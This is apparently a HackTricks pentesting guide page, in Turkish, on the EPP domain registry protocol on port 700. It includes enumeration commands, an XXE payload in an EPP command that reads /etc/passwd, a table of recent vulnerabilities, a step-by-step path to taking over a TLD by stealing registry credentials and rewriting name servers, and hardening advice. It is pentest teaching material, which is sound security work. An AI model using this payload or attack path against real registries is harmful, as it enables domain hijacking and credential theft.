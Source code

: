 # 700 - Pentesting EPP

{{#include ../banners/hacktricks-training.md}}

## Temel Bilgiler

Extensible Provisioning Protocol (EPP), alan adı kayıtları ve kayıt operatörleri tarafından **alan adları ve diğer internet kaynaklarının yönetimi için** kullanılan bir ağ protokolüdür. Alan adı kaydı, yenileme, transfer ve silme süreçlerinin otomasyonunu sağlar ve alan adı sistemi (DNS) içindeki farklı varlıklar arasında standart ve güvenli bir iletişim çerçevesi sunar. EPP, internet altyapısının ihtiyaçları geliştikçe yeni özellikler ve komutların eklenmesine olanak tanıyacak şekilde esnek ve genişletilebilir olacak şekilde tasarlanmıştır.

Temelde, bu, **TLD kayıt operatörünün TLD'de yeni alan adları kaydetmek için alan adı kayıt operatörlerine sunacağı protokollerden biridir.**

### Pentest

[**Bu çok ilginç makalede**](https://hackcompute.com/hacking-epp-servers/) bazı güvenlik araştırmacılarının bu protokolün birkaç **uygulamasının** XXE (XML Dış Varlık) saldırılarına karşı savunmasız olduğunu nasıl bulduğunu görebilirsiniz, çünkü bu protokol iletişim için XML kullanmaktadır ve bu da saldırganların farklı TLD'lerin on tanesini ele geçirmesine olanak tanımıştır.

---

## Sayım & Keşif

EPP sunucuları neredeyse her zaman TLS üzerinden TCP `700/tcp` dinler. Tipik bir dağıtım ayrıca **karşılıklı TLS (mTLS)** uygulayarak, istemcinin kayıt CA tarafından verilen geçerli bir sertifika sunmasını zorunlu kılar. Ancak, birçok özel test veya ön üretim dağıtımı bu kontrolü unutur:
```bash
# Banner-grabbing / TLS inspection
nmap -p700 --script ssl-cert,ssl-enum-ciphers <target>

# Check if mTLS is *really* required (it frequently is not!)
openssl s_client -connect <target>:700 -quiet \
-servername epp.test 2>/dev/null | head
```
Eğer sunucu TLS el sıkışmasından sonra bağlantıyı sonlandırmazsa, kimlik doğrulaması yapılmamış bir `<hello/>` mesajı göndermeyi deneyebilirsiniz:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
<hello/>
</epp>
```
### Test için yararlı açık kaynaklı istemciler

* **epp-client (Go)** – aktif olarak bakım yapılan, TCP/TLS ve EPP-over-HTTPS (RFC 8730) destekleyen:
`go install github.com/domainr/epp/cmd/epp@latest`
* **gandi/go-epp** – fuzzing veya nuclei tarzı iş akışları için kolayca enstrümante edilebilen minimal istemci kütüphanesi.
* **afq984/php-epp-client** – birçok küçük kayıt kuruluşu tarafından kullanılan PHP uygulaması; kod incelemesi için uygun bir hedef.

Go epp-client ile örnek minimal giriş+kontrol scripti:
```go
package main
import (
"github.com/domainr/epp"
"crypto/tls"
)

func main() {
cfg := &tls.Config{InsecureSkipVerify: true}
c, _ := epp.DialTLS("epp.test:700", cfg)
c.Login("CLIENT_ID", "PASSWORD", nil)
resp, _ := c.DomainCheck("example","com")
println(resp)
}
```
---

## Yaygın Zayıflıklar & 2023-2025 Güvenlik Açıkları

| Yıl | Bileşen | CWE | Etki |
|------|-----------|-----|--------|
| 2023 | CoCCA Kayıt Defteri < 3.5 | CWE-611 XXE | Uzaktan dosya okuma & SSRF, hazırlanmış `<epp>` yükü aracılığıyla (yamanın tarihi: 2023-11-02) |
| 2024 | FRED EPP Sunucusu 2.x | CWE-322 Yetersiz TLS sertifika doğrulaması | mTLS'nin atlanması, yetkisiz kayıtlı girişine izin verdi |
| 2025 | Özel kayıtlı panel | CWE-306 Kritik Fonksiyon için Kimlik Doğrulama Eksikliği | Alan adı transfer onay uç noktası EPP-HTTP köprüsü üzerinden ifşa edildi |

### XXE / SSRF yükü (birçok Java/Spring uygulamasına karşı çalışır)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
<command>
<check>
<domain:check xmlns:domain="urn:ietf:params:xml:ns:domain-1.0">
<domain:name>&xxe;</domain:name>
</domain:check>
</check>
</command>
</epp>
```
When the parser is mis-configured (`XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES=true`) the file content is returned inside the `<resData>` structure.

### Diğer tipik bulgular

1. **Zayıf kimlik bilgisi politikası** – EPP giriş parolaları 8 karakterden daha kısa; spesifikasyon sadece hız sınırlamasını TAVSİYE eder (zorunlu kılmaz) bu nedenle brute-force genellikle mümkündür.
2. **Eksik `registryLock` / `serverUpdateProhibited` durumu** – bir kez kimlik doğrulandıktan sonra, saldırganlar hemen NS kayıtlarını güncelleyebilir ve trafiği çalabilir.
3. **İmzalanmamış anket mesajları** – bazı uygulamalar hala anket Soru-Cevap mesajlarını imzalamıyor, bu da kayıt operatörlerinin sahtecilik/phishing yapmasına olanak tanıyor.

---

## Saldırı Yolu: Sıfırdan TLD Ele Geçirme

1. Bir EPP uç noktasını keşfedin (genellikle `ot&e.<tld>.nic.<cc>` gibi genel bir ana bilgisayarın arkasında gizlidir).
2. Yukarıdaki zayıflıklardan birini kötüye kullanarak kayıt düzeyinde kimlik bilgileri elde edin (XXE → SSRF to IMDSv1, kimlik bilgisi sızıntısı veya TLS-atlatma).
3. Alan adının `hostObj` kayıtlarını saldırgan kontrolündeki ad sunucularına değiştirmek için `<update>` istekleri gönderin.
4. (İsteğe bağlı) Alan adını saldırgan kontrolündeki bir kayıtçıya taşımak için bir `<transfer>` gönderin – birçok kayıt hala **tek bir yetki koduna** güveniyor.
5. Kar: DNS bölgesinin tam kontrolü, ACME aracılığıyla TLS sertifikaları talep etme yeteneği.

---

## Savunma Önlemleri & Güçlendirme

* **Kayıtçı başına istemci sertifikaları ile mTLS'yi zorlayın** ve kayıt CA'sını sabitleyin.
* XXE'yi öldürmek için `parserFeature secure-processing=true` veya eşdeğerini ayarlayın.
* XML ayrıştırıcısının **sürekli fuzzing**'ini gerçekleştirin (örneğin, `go-fuzz` veya Java için `jazzer` ile).
* Yüksek değerli alanlar için **Registry Lock / server*Prohibited** durumlarını dağıtın.
* Şüpheli `<transfer>` veya `<update>` komutları için `poll` kuyruğunu izleyin ve gerçek zamanlı olarak uyarın.
* ICANN 2024 DNS-Kötüye Kullanım sözleşmesi değişiklikleri, kayıtların hız sınırlaması ve kimlik doğrulama kontrollerini kanıtlamasını gerektirir – bunları kullanın.

## Referanslar

* ICANN Güvenlik ve İstikrar Danışma Komitesi (SSAC). "SAC118: Kayıt Operatörünün EPP Güvenlik Kontrollerini Uygulamaması Sonuçları". 2024.
* HackCompute – "EPP sunucularını hacklemek: TLD'leri ele geçirmek için XXE'yi kötüye kullanma" (2023).
{{#include ../banners/hacktricks-training.md}}
